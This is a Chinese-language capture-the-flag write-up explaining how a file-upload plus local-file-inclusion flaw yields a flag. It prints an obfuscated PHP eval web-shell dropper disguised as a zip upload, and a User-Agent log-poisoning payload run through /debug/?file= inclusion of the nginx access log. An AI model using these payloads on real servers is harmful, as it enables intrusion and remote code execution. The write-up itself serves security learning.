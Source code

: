 发现可以上传图片以及压缩包！因为允许上传zip文件，所以写一句话然后把后缀改为zip!

![image-20220404210352256](https://img-blog.csdnimg.cn/img_convert/1c01344d2b6aede312e4d63a06c19934.png)

> <?php
> $a = '<?ph'.'p ev'.'al($_PO'.'ST[1]);?>';
> file_put_contents('/var/www/html/1.php',$a);
> ?>   

![image-20220404210524367](https://img-blog.csdnimg.cn/img_convert/0d92e7bf256bc98708d827f9d8d7975a.png)

并且给出了路径

![image-20220404210602498](https://img-blog.csdnimg.cn/img_convert/15dda568c35d59902950ff18af8ad342.png)

> 这个时候再去执行包含文件/debug/?file=/var/www/html/alsckdfy/attached/file/20220404/20220404130517_39664.zip

![image-20220404210723022](https://img-blog.csdnimg.cn/img_convert/be8a4caae2ebb448a1ef8d56ecba9e16.png)

此时文件内容已经被读取写入日志了，再去包含日志文件`/debug/?file=/var/log/nginx/access.log`，写入的shell就执行了，生成1.php，访问执行拿到flag

![image-20211006174833010](https://img-blog.csdnimg.cn/img_convert/77f4dc502cfd7178f54809f07fce46ea.png)这个时候去看日志就能得到flag！

还有一种方法，包含日志写入shell

![image-20220404211432785](https://img-blog.csdnimg.cn/img_convert/2867648c9a73c04dd756327cfdddca12.png)然后再访问一次`/debug/?file=/var/log/nginx/access.log`，就会生成shell

![image-20211006180656898](https://img-blog.csdnimg.cn/img_convert/2867648c9a73c04dd756327cfdddca12.png)

还有一种方法

我们传一个file参数给它，我们访问：

```
题目链接/debug/?file=/var/www/html/clear.php
```

![image-20220406185228841](https://img-blog.csdnimg.cn/img_convert/b9ad53ae71b6745d204f918d9def3a4b.png)

发现它执行了clear.php文件，那我们可以通过在日志中传入木马来实现任意文件访问：

```
题目链接/debug/?file=/var/log/nginx/access.log
```

若在网站根目录写入2.html会重定向，我们可以将2.html写入/alsckdfy/目录下即可正常访问。

payload：

```php
User-Agent : <?php system('cat /var/www/html/alsckdfy/check.php > /var/www/html/alsckdfy/1.html');?>
```

![image-20220406185342877](https://img-blog.csdnimg.cn/img_convert/8e62e4d61edada04844a68876a617b2f.png)

访问1.html查看源代码即可看到flag。
